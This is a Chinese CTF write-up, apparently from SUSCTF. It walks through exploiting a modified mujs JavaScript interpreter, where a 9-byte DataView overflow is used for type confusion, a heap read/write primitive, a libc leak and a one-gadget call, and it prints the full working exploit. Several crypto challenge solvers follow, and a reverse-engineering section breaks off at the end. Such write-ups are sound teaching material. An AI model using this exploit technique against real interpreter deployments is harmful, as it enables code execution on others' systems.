

## mujs 
### 题目描述

出题人给出的题目描述如下

```ASN.1
dd0a0972b4428771e6a3887da2210c7c9dd40f9c  
nc 124.71.182.21 9999
```

在附件中有`mujs`的源码，这个是一个在嵌入式设备上常用的js代码解释器。这个源码的代码量还是很大的。同时附件里还有一个编译好的二进制文件，以及libc文件。从libc文件可以得知远程的运行环境是libc.2.31

题目描述中给出的这个hash字符告诉我们这个源码是来自于这个hash对应的commit的`mujs`源码

https://github.com/ccxvii/mujs/commit/dd0a0972b4428771e6a3887da2210c7c9dd40f9c 

所以使用diff对比了这两个源码。发现主要的差别在两个地方

* 一些内置方法在main.c中被禁用了
* 新增了dataview.c文件。 这个是[DataView](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/DataView) 方法的一个简化版的实现

### 寻找漏洞点

队友的思路首先是从最近的CVE里寻找一些漏洞，但是没有发现有用的信息，所以这个题应该是魔改的这个版本的源码。而且被魔改的部分其实代码量不算大，直接审就好了。

首先我们需要理解DataView都做了什么，都有哪些方法。一些常用的用法如下所示。

```javascript
x = new DataView(10)
print(x.getUint8(0))
print(x.getUint8(9))
print(x.getUint8(12)) // should not work
print(x.setUint32(0, 10))
...
```

其实从`jsB_initdataview`函数当中大概可以看出来都有哪些方法，然后自己试一下就可以试出来这些方法怎么用

```javascript
void jsB_initdataview(js_State *J)
{
	js_pushobject(J, J->DataView_prototype);
	{
		jsB_propf(J, "DataView.prototype.getUint8", Dv_getUint8, 1);
		jsB_propf(J, "DataView.prototype.setUint8", Dv_setUint8, 2);
		jsB_propf(J, "DataView.prototype.getUint16", Dv_getUint16, 1);
		jsB_propf(J, "DataView.prototype.setUint16", Dv_setUint16, 2);
		jsB_propf(J, "DataView.prototype.getUint32", Dv_getUint32, 1);
		jsB_propf(J, "DataView.prototype.setUint32", Dv_setUint32, 2);
		jsB_propf(J, "DataView.prototype.getLength", Dv_getLength, 0);
	}
	js_newcconstructor(J, jsB_new_DataView, jsB_new_DataView, "DataView", 0);
	js_defglobal(J, "DataView", JS_DONTENUM);
}
```

然后经过一阵审计，很容易就能发现这里存在一个越界写操作，可以越界写9字节

```javascript
static void Dv_setUint8(js_State *J)
{
	js_Object *self = js_toobject(J, 0);
	if (self->type != JS_CDATAVIEW) js_typeerror(J, "not an DataView");
	size_t index = js_tonumber(J, 1);
	uint8_t value = js_tonumber(J, 2);
	if (index < self->u.dataview.length+0x9) {
		self->u.dataview.data[index] = value;
	} else {
		js_error(J, "out of bounds access on DataView");
	}
}
```

值得注意的是这里同时也存在一个整数溢出（但是是无符号的)，可以让我们可以前溢9字节。但是由于这里没有什么free的操作，所以很难利用。因此还是后溢9字节可用性高一点。

### 利用漏洞

#### 类型混淆

因为说溢出9字节，这个多出的一字节很容易令人联想到类型混淆。下面是 js_Object 的结构。可见只要溢出一字节就可以覆盖它的type字段。

```C
struct js_Object
{
        enum js_Class type;
        int extensible;
        js_Property *properties;
        ...
}
```

下面给出类型混淆的poc

```javascript
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);


print(c)
b.setUint8(0x48+8, 8); // change type of c to something
print(c)
```

输出为

```javascript
[object DataView]
[object String]
```

#### 越界写Dataview的Length字段

js_Objec 使用了 C语言里的union结构，所以不同类型可以共用相同的内存。队友的想法是利用与DataView里Length字段占用内存相同的其他类型的字符来修改DataLength。**这样我们就可以扩大任意地址读写的范围，起码可以拓展到整个堆上了，而不仅仅是越界9字节。**

整个Js_Objec 结构体如下：

```C
struct js_Object
{
        enum js_Class type;
        int extensible;
        js_Property *properties;
        int count; 
        js_Object *prototype;
        union {
                int boolean;
                double number;
                struct {
                        const char *string;
                        int length;
                } s;
                struct {
                        int length;
                } a;
                struct {
                        js_Function *function;
                        js_Environment *scope;
                } f;
                struct {
                        const char *name;
                        js_CFunction function;
                        js_CFunction constructor;
                        int length;
                        void *data;
                        js_Finalize finalize;
                } c;
                js_Regexp r;
                struct {
                        js_Object *target;
                        js_Iterator *head;
                } iter;
                struct {
                        const char *tag;
                        void *data;
                        js_HasProperty has;
                        js_Put put;
                        js_Delete delete;
                        js_Finalize finalize;
                } user;
                struct {
                    uint32_t length;
                    uint8_t* data;
                } dataview;
        } u;
// ...
};
```

比如`js_Object.u.dataview.length` 在结构体内所处的偏移是和`js_Object.u.number` 以及`s_Object.u.c.name`这两个是相同的。

所以我们可以修改`js_Object.u.number`，队友找到了下面的代码

```C
static void js_setdate(js_State *J, int idx, double t)
{
        js_Object *self = js_toobject(J, idx);
        if (self->type != JS_CDATE)
                js_typeerror(J, "not a date");
        self->u.number = TimeClip(t);
        js_pushnumber(J, self->u.number);
}
// ... called from here
static void Dp_setTime(js_State *J)
{
        js_setdate(J, 0, js_tonumber(J, 1));
}
```

让我们试一下

`JS_CDATE`的值是10，我们需要把这个DataView结构的type字段溢出成10就可以了

```javascript
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);


print(c)
b.setUint8(0x48+8, 10); // set type of c to Date
print(c)
c.setTime(0)
```

结果：

```
[object DataView]
[object Date]
TypeError: undefined is not callable
        at tconf.js:10
```

Emmm，居然是报错了。难道进行了类型混淆还是不能调用setTime方法么？队友曾经为了这个问题困扰了许久，他意识到了对象的prototype 在我们一创建的时候其实就已经确定了。所以当我们改变type的时候prototype并没有改变。而prototype基本就已经定义了这个对象可以调用哪些方法，可恶。

这时无敌的队友发现，js里有个讨厌的东西叫 `this`，这个东西在这个时候算是雪中送碳吧

我们仍然可以通过js的`bind`调用`setTime` :

```javascript
Date.prototype.setTime.bind(c)(12)
```

成功了！

```javascript
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);


print(c)
b.setUint8(0x48+8, 10); // set type of c to Date
print(c)
Date.prototype.setTime.bind(c)(1.09522e+12)

b.setUint8(0x48+8, 16); // type of c back to DataView
print(c.getLength())
```

看到这里大家可能会有些疑问，就是`u.number`是8字节的`double`类型，而我们要覆盖的`u.dataview.length`只有四字节，这样会不会覆盖到后面紧跟着的四字节的`u.dataview.data`，毕竟这个是个指针，覆盖掉了容易导致crash。其实是不会的，因为这个结构体有8字节对齐。

#### 使用堆上的越界读写来实现代码执行

到了这个阶段，我们已经可以通过修改dataview的length字段来实现堆上的任意地址读写了。并且堆布局也是我们相对可控的了。为了更好的控制堆上的结构，我的队友在`c`后面又申请了两个Dataview。并且我们知道，如果我们申请的堆的大小大于128k的话我们会使用mmap来申请空间，这个是malloc函数的一个策略。而这个mapp的地址往往距离libc地址很近，因此我们可以通过这种方法来泄漏libc基地址。

所以我们用上述的方法泄漏了libc地址之后，可以伪造一个`JS_CCFUNCTION`类型，他有一个字段叫做`u.c.function`我们可以轻易用下面的方式调用这个函数指针

```c
void js_call(js_State *J, int n)
{
// ...
                        jsR_callfunction(J, n, obj->u.f.function, obj->u.f.scope);
// ...
}
```

### 最终exp

```javascript
b = DataView(0x68);
a = DataView(0x48);
b = DataView(0x48);
c = DataView(0x48);
e = DataView(0x48);
f = DataView(0x1000 * 0x1000);

b.setUint8(0x48+8, 10); // set c type to Date
Date.prototype.setTime.bind(c)(1.09522e+12) // write number + length
b.setUint8(0x48+8, 16); // set c type back to DataView


sh32 = 4294967296 // 1<<32
libb_addr_off = 472
libc_leak = c.getUint32(libb_addr_off) + (c.getUint32(libb_addr_off+4)*sh32)

libc_off = 0x7ffff7c31000 - 0x7ffff6bfe010 // got this from gdb
libc_base = libc_leak + libc_off
print('libc base:', libc_base.toString(16))

one_gag = libc_base + 0xe6c84
print('onegadget:', one_gag.toString(16))

e_obj_off = 192
c.setUint8(160, 4) // this sets type to JS_CCFUNCTION

// set lower 4 bytes of js_CFunction function
c.setUint32(e_obj_off+8, one_gag&0xffffffff) 

// set upper 4 bytes of js_CFunction function
c.setUint32(e_obj_off+8+4, Math.floor(one_gag/sh32)&0xffffffff) 
e() // e is now a function so we can call it 
```

队友表示他之前也没做过这种mujs的利用，但是这些堆利用的基本思路和很多大型项目比如v8的利用是共通的，但是那些大型项目由于运行时更为复杂，堆空间要相对更不可控一些。

# Crypto
## large case
思路如下：

这题没有提供e，给了p、q、r，并且条件里说了e由三个素因子组成，所以不难想到分解p-1，q-1，r-1，从而对e的可能值进行组合。不过就算组合过了，也不能用常规方法解题，因为本题e phi不互素，所以考虑对其开根，又考虑到这题的e会相对较大，所以用amm算法对其开根。
在这之前可以对e的因子进行猜测，由于需要使用到crt组合，所以因子不会太大，并且因子不会是共有的因数，于是可以猜测e使用p-1中的757，q-1中的66553，r-1中的5156273（如果不对，再进行调整，可供调整的选择不多，一些小的因数比如3、7，可以直接跑，很快就可以知道不满足）。
这是可以注意到flag的长度在1025-2048比特之间，所以我们不需要考虑r的部分，只考虑p、q。有了猜测的e，我们就可以把多于2048的pad去掉，留下一部分\x00
$$c\equiv{m^e(2^{1024})^e}\pmod{n} $$ 
$$c2^{-1024e}\equiv{m^e}\pmod{n}$$

之后分别计算模p和模q的情况

$$cp\equiv{m^{e1 \times e2 \times e3}}\pmod{p} $$

$$cp^{-e2 \times e3}\equiv{m^{e1}}\pmod{p} $$

$$ cq\equiv{m^{e1 \times e2 \times e3}}\pmod{q} $$

$$cq^{-e1 \times e3}\equiv{m^{e2}}\pmod{q} $$

对上面的式子使用amm算法，就可以得到mp、mq的列表，然后使用crt对其组合，用SUSCTF校验即可。
```Python
from Crypto.Util.number import *
import time
import random
c = 2832775557487418816663494645849097066925967799754895979829784499040437385450603537732862576495758207240632734290947928291961063611897822688909447511260639429367768479378599532712621774918733304857247099714044615691877995534173849302353620399896455615474093581673774297730056975663792651743809514320379189748228186812362112753688073161375690508818356712739795492736743994105438575736577194329751372142329306630950863097761601196849158280502041616545429586870751042908365507050717385205371671658706357669408813112610215766159761927196639404951251535622349916877296956767883165696947955379829079278948514755758174884809479690995427980775293393456403529481055942899970158049070109142310832516606657100119207595631431023336544432679282722485978175459551109374822024850128128796213791820270973849303929674648894135672365776376696816104314090776423931007123128977218361110636927878232444348690591774581974226318856099862175526133892
p = 127846753573603084140032502367311687577517286192893830888210505400863747960458410091624928485398237221748639465569360357083610343901195273740653100259873512668015324620239720302434418836556626441491996755736644886234427063508445212117628827393696641594389475794455769831224080974098671804484986257952189021223
q = 145855456487495382044171198958191111759614682359121667762539436558951453420409098978730659224765186993202647878416602503196995715156477020462357271957894750950465766809623184979464111968346235929375202282811814079958258215558862385475337911665725569669510022344713444067774094112542265293776098223712339100693
r = 165967627827619421909025667485886197280531070386062799707570138462960892786375448755168117226002965841166040777799690060003514218907279202146293715568618421507166624010447447835500614000601643150187327886055136468260391127675012777934049855029499330117864969171026445847229725440665179150874362143944727374907
# fp = [2, 7, 757, 1709, 85015583 , 339028665499, 149105250954771885483776047]
# fq = [2, 3, 66553,81768440203, 84405986771, 38037107558208320033, 16137718604846030589135490851713]
# fr = [2, 5156273, 10012111, 11607389, 68872137169799749, 9691125310820433463]
# e_list = []
# for i in fp:
#     for j in fq:
#         for k in fr:
#             e_list.append(i*j*k)
# print(e)
e = 757 * 66553 *5156273
def AMM(o, r, q):
    start = time.time()
    print('\n----------------------------------------------------------------------------------')
    print('Start to run Adleman-Manders-Miller Root Extraction Method')
    print('Try to find one {:#x}th root of {} modulo {}'.format(r, o, q))
    g = GF(q)
    o = g(o)
    p = g(random.randint(1, q))
    while p ^ ((q-1) // r) == 1:
        p = g(random.randint(1, q))
    t = 0
    s = q - 1
    while s % r == 0:
        t += 1
        s = s // r
    k = 1
    while (k * s + 1) % r != 0:
        k += 1
    alp = (k * s + 1) // r
    a = p ^ (r**(t-1) * s)
    b = o ^ (r*alp - 1)
    c = p ^ s
    h = 1
    for i in range(1, t):
        d = b ^ (r^(t-1-i))
        if d == 1:
            j = 0
        else:
            j = - discrete_log(d, a)
        b = b * (c^r)^j
        h = h * c^j
        c = c^r
    result = o^alp * h
    end = time.time()
    print("Finished in {} seconds.".format(end - start))
    return result

def findAllPRoot(p, e):
    start = time.time()
    proot = set()
    while len(proot) < e:
        proot.add(pow(random.randint(2, p-1), (p-1)//e, p))
    end = time.time()
    return proot
def findAllSolutions(mp, proot, cp, p):
    print("Start to find all the {:#x}th root of {} modulo {}.".format(e, cp, p))
    start = time.time()
    all_mp = set()
    for root in proot:
        mp2 = mp * root % p
        all_mp.add(mp2)
    end = time.time()
    print("Finished in {} seconds.".format(end - start))
    return all_mp
n=p*q*r
# tmp = pow(int(1<<1024),int(e),n)
tmp = 2794203162952680694875426764547234241112236710433123774476303768639242351566319207612773628883250609134659396011750795113351981408956541443986997306105869563120160376511155383832592237253107342927670770094240045412123787825031261131955433947396826167219004667304636335427373984885928591487526163086731412269053200262557436796244981351739716063496342017497841802350338687039580076905949641402173299773716271511639533823663740291331408514189072329517625171120136705677613965360814741037067953490597466636290290725085921897578223035738383932219334876192857916281288629471625406358741715112812225419217748429901501082216480552255233899368763011103720695984389763743356559299690991047172680728215625377751497287365075742929734077041112027582350488222091280835389084342367259161290929159777553525296385682720359499417021854388648183468514374707670903349123145819166174953312125050648613697527164777642887701658900202492759171557250
realc=inverse_mod(tmp,n)*c%n
er=5156273
der = inverse_mod(er,(p-1)*(q-1))
c = pow(int(realc), der,p*q)
dp = inverse_mod(66553, p-1)
dq = inverse_mod(757, q-1)
cp = pow(int(c),int(dp),int(p))
cq = pow(int(c),int(dq),int(q))
mp = AMM(cp, 757, p)
mq = AMM(cq, 66553, q)
p_proot = findAllPRoot(p, 757)
q_proot = findAllPRoot(q, 66553)
mps = findAllSolutions(mp, p_proot, cp, p)
mqs = findAllSolutions(mq, q_proot, cq, q)

start = time.time()
print('Start CRT...')
for mpp in mps:
    print(mpp)
    for mqq in mqs:
        solution = crt([int(mpp), int(mqq)], [p, q])
        if b'SUSCTF' in long_to_bytes(solution):
            print(long_to_bytes(solution))
            end = time.time()
            print("Finished in {} seconds.".format(end - start))
```
## InverseProblem
小数矩阵乘法求逆，在这个过程中无论如何计算都会产生精度损失（做题过程中尝试了使用Rational域计算都没用），后来意识到也许可以用格来做，构造一个这样的格：

其左边如果乘以flag构成的向量，那么得到的目标向量会是：$ (errors, flag) $，理想状态下，errors等于0，但是受到精度影响，errors不等于0，但是很小，同时flag也很小，因此可以达成目的。
exp如下：

```Python
import numpy as np

b = '''3.657060500339054556e+02
3.832239212422502419e+02
4.006400878420690219e+02
4.178419900792603698e+02
4.347228858757071634e+02
4.511847676148433948e+02
4.671407458110251127e+02
4.825167947918074560e+02
4.972528090932780174e+02
5.113029695817293714e+02
5.246354631948004226e+02
5.372316391653928349e+02
5.490847173300799113e+02
5.601981891814167511e+02
5.705840667157972348e+02
5.802611340293560716e+02
5.892533389518160902e+02
5.975884263745526823e+02
6.052968650055386206e+02
6.124110630374365201e+02
6.189648165161182760e+02
6.249928981118596312e+02
6.305306816020913629e+02
6.356137112146116124e+02
6.402771610768811570e+02
6.445551788138646998e+02
6.484801562386791147e+02
6.520820067831411961e+02
6.553875449515115861e+02
6.584200543535777115e+02
6.611991006926840555e+02
6.637406026122149569e+02
6.660571276935107790e+02
6.681583443270599219e+02
6.700515409542964562e+02
6.717421256877905762e+02
6.732340393774057929e+02
6.745300469406174670e+02
6.756319058650934721e+02
6.765404381911505425e+02
6.772555468921494821e+02
6.777762178159265432e+02
6.781005372262200126e+02
6.782257385537030814e+02
6.781482768722584069e+02
6.778639205835502253e+02
6.773678481496929180e+02
6.766547414782241958e+02
6.757188729437999655e+02
6.745541865153842309e+02
6.731543734407333659e+02
6.715129401333222177e+02
6.696232624726493441e+02
6.674786187460366591e+02
6.650721936401939729e+02
6.623970470419692447e+02
6.594460419709976122e+02
6.562117241643640000e+02
6.526861416758931682e+02
6.488605883801759546e+02
6.447252539940367342e+02
6.402687687915280321e+02
6.354776457871529374e+02
6.303356463148024886e+02
6.248231231031890047e+02
6.189164222318630664e+02
6.125874450187269531e+02
6.058034773416537746e+02
5.985273843207024811e+02
5.907182434535461653e+02
5.823324532363482149e+02
5.733253130130134423e+02
5.636530294391988036e+02
5.532750701442269019e+02
5.421567579447032585e+02
5.302719786604150158e+02
5.176058598538473916e+02
5.041572643016256734e+02
4.899409301857818377e+02
4.749890824218749685e+02
4.593523418788242338e+02
4.430997787892412703e+02
4.263179996640761260e+02
4.091092256773656004e+02
3.915884105025300528e+02'''

b = b.split('\n')
b = [each[:-4] for each in b]
b = [int(each.replace('.', '')) for each in b]

def gravity(n,d=0.25):
    A=np.zeros([n,n])
    for i in range(n):
        for j in range(n):
            A[i,j]=d/n*(d**2+((i-j)/n)**2)**(-1.5)
    return A

A = gravity(85) * 10^18
A = [[int(each2) for each2 in each1] for each1 in A]
M = []
for i in range(85):
    M.append(A[i] + [0] * i + [1] + [0] * (84 - i))

M.append(b + [0] * 85)
M = Matrix(ZZ, M)

L = M.LLL()
ans = L[0]
print(bytes(ans[85:]))
```
## SpecialCurve3
题目分成了三个部分，该曲线是过原点的圆锥曲线，a>0时为双曲线，a=0时为抛物线，a<0时为椭圆，三个Problem分别对这三种情况进行了讨论。
最简单的是第二部分，根据加法公式，这种情况下的纵坐标与点的映射关系是线性的，即$(nG)_y=2n*G_y$，可以立刻算出结果
其次是第三部分，虽然p很大，但是p+1光滑，且曲线的阶是p+1，可以直接使用bsgs算法结合crt算出结果。这里使用了sagemath中自带的bsgs（sage自带的bsgs算法有bug，文件/opt/sagemath-9.3/local/lib/python3.7/site-packages/sage/groups/generic.py中468行没写全，这导致bsgs自定义群的计算报错，解决方案就是把这一行参数补全即可。`c = op(inverse(b), multiple(a, lb, operation=operation, identity=identity, inverse=inverse, op=op))`）
第一部分比较复杂，我参考了去年D\^3CTF的做法，根据Pell方程的矩阵形式推导迭代公式，最终可以将点运算映射到GF(p)上的运算，再根据p-1的小因子，结合cado-nfs和bsgs算法计算出其余的解。这里的映射关系详见wp，推导方法与D\^3一致，在结果上会有一个$(-1)^n$的差别，不过问题不大，正着解不出结果就取负解。

exp如下：

```Python
from Crypto.Util.number import inverse, bytes_to_long, long_to_bytes
from sage.groups.generic import bsgs
from hashlib import md5

class SpecialCurve:
    def __init__(self, p, a, b):
        self.p = p
        self.a = a
        self.b = b

    def __str__(self):
        return f'SpecialCurve({self.p},{self.a},{self.b})'

    def __call__(self, x, y):
        return SpecialCurvePoint(self.p, self.a, self.b, x, y)

    def __contains__(self, other):
        x, y = other.x, other.y
        return (self.a * x ** 2 - self.b * x - y ** 2) % self.p == 0

class SpecialCurvePoint:

    def __init__(self, p, a, b, x, y):
        self.p = p
        self.a = a
        self.b = b
        self.x = x % p
        self.y = y % p

    def __str__(self):
        return "(%d, %d)" % (self.x, self.y)

    def __repr__(self):
        return str(self)

    def __add__(self, P1):
        x1, y1 = self.x, self.y
        x2, y2 = P1.x, P1.y
        if x1 == 0:
            return P1
        elif x2 == 0:
            return self
        elif x1 == x2 and (y1+y2) % self.p == 0:
            return SpecialCurvePoint(self.p, self.a, self.b, 0, 0)
        if self == P1:
            t = (2*self.a*x1-self.b)*inverse(2*y1, self.p) % self.p
        else:
            t = (y2-y1)*inverse(x2-x1, self.p) % self.p
        x3 = self.b*inverse(self.a-t**2, self.p) % self.p
        y3 = x3*t % self.p
        return SpecialCurvePoint(self.p, self.a, self.b, x3, y3)

    def __mul__(self, k):
        assert k >= 0
        Q = SpecialCurvePoint(self.p, self.a, self.b, 0, 0)
        P = SpecialCurvePoint(self.p, self.a, self.b, self.x, self.y)
        cnt = 0
        now = 1
        while k > 0:
            if k % 2:
                k -= 1
                Q = P + Q
                cnt += now
            else:
                k //= 2
                P = P + P
                now *= 2

        return Q

    def order(self):
        return self.p + 1

    def is_zero(self):
        return self.x == 0 and self.other == 0

    def __eq__(self, other):
        return self.a == other.a and self.b == other.b and self.p == other.p \
            and self.x == other.x and self.y == other.y
    def __hash__(self):
        return int(md5(("%d-%d-%d-%d-%d" % (self.p, self.a, self.b, self.x, self.y)).encode()).hexdigest(), 16)

def invert(P):
    return SpecialCurvePoint(P.p, P.a, P.b, P.x, -P.y % P.p)

def add(P1, P2):
    return P1 + P2
def problem3():
    curve=SpecialCurve(52373730653143623993722188411805072409768054271090317191163373082830382186155222057388907031638565243831629283127812681929449631957644692314271061305360051,28655236915186704327844312279364325861102737672471191366040478446302230316126579253163690638394777612892597409996413924040027276002261574013341150279408716,42416029226399083779760024372262489355327595236815424404537477696856946194575702884812426801334149232783155054432357826688204061261064100317825443760789993)
    G=curve(15928930551986151950313548861530582114536854007449249930339281771205424453985946290830967245733880747219865184207937142979512907006835750179101295088805979, 29726385672383966862722624018664799344530038744596171136235079529609085682764414035677068447708040589338778102975312549905710028842378574272316925268724240)
    Q=curve(38121552296651560305666865284721153617113944344833289618523344614838728589487183141203437711082603199613749216407692351802119887009907921660398772094998382, 26933444836972639216676645467487306576059428042654421228626400416790420281717654664520663525738892984862698457685902674487454159311739553538883303065780163)
    p = 52373730653143623993722188411805072409768054271090317191163373082830382186155222057388907031638565243831629283127812681929449631957644692314271061305360051
    E = curve(0, 0)
    order = p + 1
    factors = [4, 2663, 5039, 14759, 18803, 21803, 22271, 22307, 23879, 26699, 35923, 42727, 48989, 52697, 57773, 58129, 60527, 66877, 69739, 74363, 75869, 79579, 80489, 81043, 81049, 82531, 84509, 85009, 91571, 96739, 98711, 102481, 103357, 103981]
    ans = []

    for factor in factors:
        this = bsgs(G * (order // factor), Q * (order // factor), (0, factor), operation='other', op=add, inverse=invert, identity=E)
        ans.append(this)
        print(this)

    return crt(ans, factors)

def problem2():
    y1 = 96989919722797171541882834089135074413922451043302800296198062675754293402989
    yn = 110661224324697604640962229701359894201176516005657224773855350780007949687952
    p = 191068609532021291665270648892101370598912795286064024735411416824693692132923
    return yn * inverse(y1, p) % p

def problem1():

    p = 233083587295210134948821000868826832947
    a = 73126617271517175643081276880688551524
    b = 88798574825442191055315385745016140538
    D = (Mod(a, p)^-1).nth_root(2)
    def Map(P):
        x, y = P.x, P.y
        return Mod((x - b * inverse_mod(2 * a, p) + D * y) * 2 * a * inverse_mod(b, p), p)

    curve=SpecialCurve(233083587295210134948821000868826832947,73126617271517175643081276880688551524,88798574825442191055315385745016140538)
    G=curve(183831340067417420551177442269962013567, 99817328357051895244693615825466756115)
    Q=curve(166671516040968894138381957537903638362, 111895361471674668502480740000666908829)

    g = Map(G)
    q = -Map(Q)
    factors = [2, 3, 71, 2671, 20147, 69341, 146631649272726436705613]
    ans = []
    for factor in factors[:-1]:
        this = bsgs(g ** (order // factor), q ** (order // factor), (0, factor))
        ans.append(this)
        print(this)
    ans.append(71440828573593354113865)
    return crt(ans, factors)

import hashlib

e1 = problem1()
e2 = problem2()
e3 = problem3()
enc = 4161358072766336252252471282975567407131586510079023869994510082082055094259455767245295677764252219353961906640516887754903722158044643700643524839069337
print(long_to_bytes(bytes_to_long(hashlib.sha512(b'%d-%d-%d'%(e1,e2,e3)).digest()) ^^ enc))
```

## Ez_Pager_Tiper
```Python
from Crypto.Util.number import long_to_bytes
from tqdm import tqdm
from magic_box import lfsr, generator

def gauss(mat):
    for i in range(len(mat[0]) - 1):
        if mat[i][i] == 0:
            for j in range(i + 1, len(mat)):
                if mat[j][i] != 0:
                    mat[i], mat[j] = mat[j], mat[i]
                    break
        for j in range(len(mat)):
            if i == j or mat[j][i] == 0:
                continue
            for k in range(i, len(mat[i])):
                mat[j][k] ^= mat[i][k]
    return mat

n1, n2 = 64, 12
plain_2 = b'Date: 1984-04-01'
cip_2 = open('MTk4NC0wNC0wMQ==_6d30.enc', 'rb').read()
bit_list = ''
for i in range(len(plain_2)):
    bit_list += bin(plain_2[i] ^ cip_2[i])[2:].zfill(8)
mat = []
for i in range(len(bit_list) - n2 - 1):
    rol = []
    for j in range(n2 + 1):
        rol.append(int(bit_list[i + j]))
    mat.append(rol)
mat = gauss(mat)
mask2 = 0
for i in range(n2):
    mask2 = mask2 * 2 + mat[i][-1]
mask_list = bin(mask2)[2:].zfill(n2)
seed_list = bit_list[:n2]
for i in range(n2):
    res = int(seed_list[-1])
    for j in range(n2 - 1):
        if int(mask_list[j + 1]):
            res ^= int(seed_list[j])
    seed_list = str(res) + seed_list[:-1]
seed2 = int(seed_list, 2)
print(seed2, mask2)

plain_1 = b'Date: 1984-12-25\r\n'
cip_1 = open('MTk4NC0xMi0yNQ==_76ff.enc', 'rb').read()
bit_list_base = ''
for i in range(len(plain_1)):
    bit_list_base += bin(plain_1[i] ^ cip_1[i])[2:].zfill(8)

for seed3 in range(2 ** 12):
    lfit = lfsr(seed3, mask2, n2)
    bit_list_mask = ''
    for i in bit_list_base:
        bit_list_mask += str(lfit.getrandbit(1))
    bit_list = ''
    for i in range(len(bit_list_base)):
        bit_list += str(int(bit_list_base[i]) ^ int(bit_list_mask[i]))

    mat = []
    for i in range(len(bit_list) - n1 - 1):
        rol = []
        for j in range(n1 + 1):
            rol.append(int(bit_list[i + j]))
        mat.append(rol)
    mat = gauss(mat)
    mask1 = 0
    for i in range(n1):
        mask1 = mask1 * 2 + mat[i][-1]
    seed_list = bit_list[:n1]
    mask_list = bin(mask1)[2:].zfill(n1)
    for i in range(n1):
        res = int(seed_list[-1])
        for j in range(n1 - 1):
            if int(mask_list[j + 1]):
                res ^= int(seed_list[j])
        seed_list = str(res) + seed_list[:-1]
    seed1 = int(seed_list, 2)
    magic = 15193544052573546419
    lfsr1=lfsr(seed1, mask1, n1)
    lfsr2=lfsr(seed3, mask2, n2)
    cipher = generator(lfsr1, lfsr2, magic)
    plain = 0
    for x in cip_1:
        tmp = (x ^ cipher.getrandbit(8))
        if tmp > 127:
            break
        plain = (plain << 8) + tmp
    plain = long_to_bytes(plain)
    if b'SUSCTF' in plain:
        print(plain)
        exit()
```

# Rev
## DigitalCircuits
题目目测用Python 生成的exe，首先用pyinstxtractor.py 解包exe
python pyinstxtractor.py DigitalCircuits.exe
之后对比 struct 与 DigitalCircuits 2个文件的16进制码


复制插入16进制码 修复Python版本和时间戳之后 将DigitalCircuits后缀改为.pyc
用python在线反编译出py代码

```Python
#!/usr/bin/env python
